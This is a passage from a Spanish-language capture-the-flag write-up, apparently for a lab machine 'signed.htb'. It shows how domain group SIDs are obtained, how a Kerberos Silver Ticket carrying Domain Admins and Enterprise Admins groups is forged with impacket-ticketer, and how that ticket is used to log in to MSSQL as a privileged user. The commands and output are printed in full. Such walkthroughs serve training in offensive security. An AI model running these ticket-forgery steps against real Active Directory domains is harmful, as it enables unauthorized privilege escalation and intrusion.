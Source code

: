 ```batch
Domain Admins S-1-5-21-4088429403-1159899800-2753317549-512


PS C:\Users\mssqlsvc\Desktop> Get-ADGroup "Enterprise Admins" | Select-Object Name, SID
Get-ADGroup "Enterprise Admins" | Select-Object Name, SID

Name              SID                                          
----              ---                                          
Enterprise Admins S-1-5-21-4088429403-1159899800-2753317549-519
```

También podemos obtenerlos desde la sesión de **MSSQL**, pero solo si tenemos los privilegios dentro de la máquina víctima:
```batch
SELECT SUSER_SID('SIGNED\\Domain Admins');
SELECT SUSER_SID('SIGNED\\Enterprise Admins');
```

Y volvemos a crear nuestro **Silver Ticket**:
```batch
impacket-ticketer -domain-sid S-1-5-21-4088429403-1159899800-2753317549 -domain signed.htb -spn MSSQLSvc/DC01.signed.htb:1433 -groups 512,519,1105 -user-id 1103 mssqlsvc -nthash **********
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for signed.htb/mssqlsvc
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Saving ticket in mssqlsvc.ccache
```

Exportamos el **archivo ccache** en la variable de entorno:
```bash
export KRB5CCNAME=mssqlsvc.ccache
```

Y nos volvemos a autenticar al **MSSQL** con este nuevo ticket:
```batch
impacket-mssqlclient -k -no-pass DC01.SIGNED.HTB
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01): Line 1: Changed database context to 'master'.
[*] INFO(DC01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL (SIGNED\mssqlsvc  dbo@master)>
```
